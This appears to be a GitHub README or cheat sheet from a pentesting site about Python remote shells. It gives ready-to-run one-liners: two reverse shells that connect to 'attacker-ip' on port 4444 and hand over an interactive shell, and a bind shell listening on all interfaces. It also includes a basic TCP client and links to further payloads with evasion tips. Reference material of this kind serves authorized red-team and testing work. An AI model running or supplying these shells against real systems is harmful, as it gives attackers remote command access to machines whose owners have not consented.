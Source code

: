 # Python – Remote Shells & Network Scripting

**Python** is a powerful scripting language frequently used by penetration testers and red teamers for crafting custom **reverse shells**, **bind shells**, and **network clients**. With its built-in `socket` and `os` libraries, Python can replicate many of the functions of tools like Netcat — often in just one line.

🔗 [Explore Python Remote Shells on SploitHQ](https://sploithq.com/python)

---

## 🔍 Why Use Python for Remote Connectivity?

- Built-in `socket`, `os`, and `pty` modules enable custom connectivity
- Can create **reverse shells** without relying on external binaries
- Useful in restricted environments (e.g., no Netcat installed)
- Python interpreters are available on most Linux/Unix systems

---

## ⚙️ Python One-Liners

### Reverse Shell (Python 3)
```bash
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("attacker-ip",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

### Reverse Shell (Python 2)
```bash
python -c 'import socket,subprocess,os;s=socket.socket();s.connect(("attacker-ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

### Bind Shell (Python 3)
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket();s.bind(("0.0.0.0",4444));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0); os.dup2(conn.fileno(),1); os.dup2(conn.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

---

## 🧰 Building a Minimal TCP Client

```python
# tcp_client.py
import socket
s = socket.socket()
s.connect(('target.com', 80))
s.sendall(b"GET / HTTP/1.1\r\nHost: target.com\r\n\r\n")
print(s.recv(4096).decode())
```

---

## ⚠️ Notes

- Many systems have both `python` (2.x) and `python3` (3.x) — test before use.
- If `pty.spawn()` fails, fall back to `subprocess.call()` for better compatibility.
- Use firewalls or `iptables` to block unwanted outgoing connections in secure environments.

---

## 🌐 SploitHQ Shells with Python

👉 [Explore Payloads and Examples](https://sploithq.com/python)

- Prebuilt one-liners for Python 2 and 3
- Bind and reverse shell variants
- Tips for evasion and cleanup

---

## 🔗 Useful Links

- [Python socket Module](https://docs.python.org/3/library/socket.html)
- [SploitHQ Python Page](https://sploithq.com/python)
- [PayloadsAllTheThings – Reverse Shells](https://github.com/swisskyrepo/PayloadsAllTheThings)

---

## 📄 License

All examples are for educational and authorized testing only.  
This content is maintained by [SploitHQ](https://sploithq.com) for legal red teaming and pentesting use.

